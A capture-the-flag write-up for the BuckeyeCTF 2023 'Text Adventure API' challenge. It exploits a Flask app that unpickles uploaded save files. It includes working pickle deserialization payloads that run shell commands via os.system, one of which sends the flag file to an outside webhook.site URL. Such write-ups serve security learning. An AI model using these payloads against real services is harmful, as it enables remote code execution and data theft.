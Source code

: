 # BuckeyeCTF 2023

## Text Adventure API

> Explore my kitchen!
>
>  Author: mbund
>
> [`export.zip`](export.zip)

Tags: _web_

## Solution
For this challenge we get the source code of a `api-service` that allows playing `text-adventure games` (kind of)... If we inspect the source we see a couple of routes.

```python
@app.route('/api/move', methods=['POST'])
def move():
    data = request.get_json()
    exit_choice = data.get("exit")
    current_location = get_current_location()
    if exit_choice in rooms[current_location]["exits"]:
        session['current_location'] = exit_choice
        return jsonify({"message": f"You move to the {exit_choice}. {rooms[exit_choice]['description']}"})
    else:
        return jsonify({"message": "You can't go that way."})

@app.route('/api/examine', methods=['GET'])
def examine():
    current_location = get_current_location()
    room_description = rooms[current_location]['description']
    exits = rooms[current_location]['exits']

    if "objects" in rooms[current_location]:
        objects = rooms[current_location]['objects']
        return jsonify({"current_location": current_location, "description": room_description, "objects": [obj for obj in objects], "exits": exits})
    else:
        return jsonify({"current_location": current_location, "description": room_description, "message": "There are no objects to examine here.", "exits": exits})

@app.route('/api/examine/<object_name>', methods=['GET'])
def examine_object(object_name):
    current_location = get_current_location()
    if "objects" in rooms[current_location] and object_name in rooms[current_location]['objects']:
        object_description = rooms[current_location]['objects'][object_name]
        return jsonify({"object": object_name, "description": object_description})
    else:
        return jsonify({"message": f"{object_name} not found or cannot be examined here."})
```

We can `move` from one room to another and `examine` items within the room we are currently in. Also we can get a full list of items and room exits when calling just `api/examine`. Then we have two more routes.

```python
@app.route('/api/save', methods=['GET'])
def save_session():
    session_data = {
        'current_location': get_current_location()
        # Add other session-related data as needed
    }

    memory_stream = io.BytesIO()
    pickle.dump(session_data, memory_stream)
    response = Response(memory_stream.getvalue(), content_type='application/octet-stream')
    response.headers['Content-Disposition'] = 'attachment; filename=data.pkl'

    return response

@app.route('/api/load', methods=['POST'])
def load_session():
    if 'file' not in request.files:
        return jsonify({"message": "No file part"})
    file = request.files['file']
    if file and file.filename.endswith('.pkl'):
        try:
            loaded_session = pickle.load(file)
            session.update(loaded_session)
        except:
            return jsonify({"message": "Failed to load save game session."})
        return jsonify({"message": "Game session loaded."})
    else:
        return jsonify({"message": "Invalid file format. Please upload a .pkl file."})
```

This looks interesting. We can provide a file that is loaded via `pickle.load`. This is meant to be used for loading a saved game session (or just teleporting to other rooms). But interestingly this uses [`pickle`](https://docs.python.org/3/library/pickle.html) which is vulnerable for [`rce`](https://davidhamann.de/2020/04/05/exploiting-python-pickle/).

We can just try this:

```python
import os
import pickle
import requests

class RCE:
    def __reduce__(self):
        cmd = "cat flag.txt"
        return os.system, (cmd,)

payload = {"file": ("foo.pkl", pickle.dumps(RCE()))}
response = requests.post("http://localhost:5000/api/load", files=payload)
print(response.text)
```

This script builds a payload that should allow executing `shell` commands when serialized by the server and uploads the payload via the `api/load` endpoint. When we run this script we get

```bash
$ python build.py
{"message":"Failed to load save game session."}
```

But most important in the container logs we find

```bash
foo-text-adventure-api-1  | bctf{fake_flag}
```

This worked, but we can't see the log with our client, so we have to think about how we can exfiltrate the information. Since the server has `python` installed, one way to do this is to run a python command from shell and send the result to our `webhook` site.

```python
import os
import pickle
import requests

class RCE:
    def __reduce__(self):
        cmd = 'python -c "import urllib.request;f=open(\'flag.txt\').read();urllib.request.urlopen(\'https://webhook.site/9def0198-db56-4b8d-bae4-f18ae1cacaf0?foo=\'+f)"'
        return os.system, (cmd,)

payload = {"file": ("foo.pkl", pickle.dumps(RCE()))}
response = requests.post("http://localhost:5000/api/load", files=payload)
print(response.text)
```

And after executing this the server gives us the flag.

```bash
https://webhook.site/9def0198-db56-4b8d-bae4-f18ae1cacaf0?foo=bctf{y0u_f0und_7h3_py7h0n_p1ckl3_1n_7h3_k17ch3n}
```

Flag `bctf{y0u_f0und_7h3_py7h0n_p1ckl3_1n_7h3_k17ch3n}`